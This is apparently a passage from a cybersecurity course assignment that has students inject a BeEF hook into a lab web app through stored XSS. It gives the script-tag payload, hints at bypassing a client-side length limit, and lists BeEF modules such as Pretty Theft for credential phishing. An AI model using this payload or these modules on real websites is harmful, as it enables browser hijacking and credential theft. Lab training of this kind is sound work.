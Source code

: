      ![A screenshot depicts the command panel.](assets/challenge/wd_hw19.png)

5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.

   - Task details:
     - You will test the Replicants Stored XSS application page (which we used on the first day of this module): `http://192.168.13.25/vulnerabilities/xss_s/`.
     - The BeEF hook, which was returned after running the `sudo beef` command, was: `http://127.0.0.1:3000/hook.js`.
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`.

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find a way around this limitation.    
      
      > **Hint:** Try right-clicking and selecting "Inspecting the Element."
    
   - Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. Some that may work well include:
     
     - Social Engineering > Pretty Theft
     
     - Social Engineering > Fake Notification Bar
     
     - Host > Get Geolocation (Third Party)
    
6. In your M15 Challenge Submission File, paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability.  


### Submission Guidelines

* After you complete your Submission File, title it with the following format: < YOUR NAME >< M15 Challenge Submission File >
* Make sure to set the file permissions so that anyone can view and comment on your document.
* Submit the URL of your Submission File Google Doc through Canvas.

### Plagiarism Disclaimer
* No matter how difficult the course becomes, you must always turn in original work. Plagiarism is not tolerated. If your instructional or support staff determine that you have plagiarized work, your Student Success Advisor will determine the appropriate course of action based on university policy. Such actions may include, but are not limited to, a documented plagiarism discussion, an incomplete or failing grade, or ineligibility to receive the Certificate of Completion.
